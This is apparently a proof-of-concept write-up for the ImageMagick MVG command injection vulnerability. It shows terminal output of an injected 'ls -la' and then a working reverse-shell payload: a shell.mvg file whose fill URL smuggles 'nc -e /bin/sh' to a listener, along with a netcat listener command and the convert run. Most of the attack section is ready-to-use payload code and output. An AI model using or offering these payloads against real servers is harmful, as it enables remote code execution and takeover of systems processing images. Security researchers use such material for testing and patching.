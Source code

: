     root@kali:~/git/PoCs# ./exploit.sh 
    total 84
    drwxr-xr-x 3 root root  4096 Sep 28 15:43 .
    drwxr-xr-x 3 root root  4096 Sep 28 13:29 ..
    -rw-r--r-- 1 root root   112 Sep 28 15:43 exploit.mvg
    -rw-r--r-- 1 root root   111 Sep 28 15:41 exploit.png
    -rwxr-xr-x 1 root root   241 Sep 28 15:33 exploit.sh
    drwxr-xr-x 8 root root  4096 Sep 28 09:31 .git
    convert: unrecognized color `https://localhost/sp1017.jpg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
    convert: unable to open image `/tmp/magick-22459XyJrh1pYEj2M': No such file or directory @ error/blob.c/OpenBlob/2702.
    convert: unable to open file `/tmp/magick-22459XyJrh1pYEj2M': No such file or directory @ error/constitute.c/ReadImage/540.
    convert: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.


Can see the exploit in action, with the `ls -la` listing in action, just prior to the failed conversion output.





## Reverse shells



@jpeanute


Taking the MVG shell leakage vulnerability further, the following highlight how to obtain reverse shells, using a variety of options depending whats available on the target host.

For all the following samples, a netcat listener is running on the kali attacker host.

    root@kali:~# nc -l -p 443

Also, for convenience the 6.9.2-10 build of the ImageMagick `convert` and `identify` utilities is set as two shell variables:

    root@kali:~# export CONVERT=/root/Downloads/ImageMagick-6.9.2-10/utilities/convert
    root@kali:~# export IDENTIFY=/root/Downloads/ImageMagick-6.9.2-10/utilities/identify


### Netcat reverse shell with an MVG

    root@kali:~/git/PoCs# cat > shell.mvg
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "127.0.0.1" "443)'
    pop graphic-context

Run it:

    root@kali:~/git/PoCs# $CONVERT shell.mvg out.png
    ^C    <------ netcat connection
    convert: unrecognized color `https://example.com/image.jpg"|nc -e "/bin/sh" "127.0.0.1" "443' @ warning/color.c/GetColorCompliance/1046.
    convert: delegate failed `"curl" -s -k -L -o "%o" "https:%M"' @ error/delegate.c/InvokeDelegate/1332.
    convert: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
    convert: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
